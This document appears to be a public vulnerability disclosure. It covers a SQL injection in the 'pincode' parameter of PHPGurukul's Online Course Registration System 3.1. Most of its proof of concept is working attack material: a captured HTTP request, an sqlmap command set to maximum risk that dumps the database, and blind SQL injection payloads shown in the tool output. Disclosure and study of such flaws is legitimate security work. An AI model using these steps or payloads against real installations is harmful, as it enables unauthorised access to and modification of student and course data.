 # Online Course Registration System - SQL Injection - 4
+ **Exploit Title:** Online Course Registration System - SQL Injection - 4
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/online-course-registration-free-download/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7515
+ **Version:** 3.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Course Registration System allows SQL Injection via the 'pincode' parameter at "http://localhost/onlinecourse/pincode-verification.php"
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/onlinecourse/index.php"
+ Login as a student
+ Then go to http://localhost/onlinecourse/pincode-verification.php
+ Then enter a random pin code
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /onlinecourse/pincode-verification.php HTTP/1.1
Host: localhost
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/onlinecourse/pincode-verification.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=cc12r4c7k38a4endfa1btuk5he
Connection: close

pincode=a&submit=
```

+ Use sqlmap to exploit. In sqlmap, use 'pincode' parameter to dump the database.
```
sqlmap -r r.txt -p pincode --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: pincode (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: pincode=a' OR NOT 3373=3373-- KVsJ&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pincode=a' AND (SELECT 3766 FROM (SELECT(SLEEP(5)))PuAI)-- FtjI&submit=
---
[19:57:01] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:57:01] [INFO] fetching current database             
current database: 'onlinecourse'
```
+ current database: `onlinecourse`

![Ekran görüntüsü 2024-05-16 140949](https://github.com/BurakSevben/CVEs/assets/117217689/6f7127a8-9de0-40c9-a852-f06bc6bfe7a6)
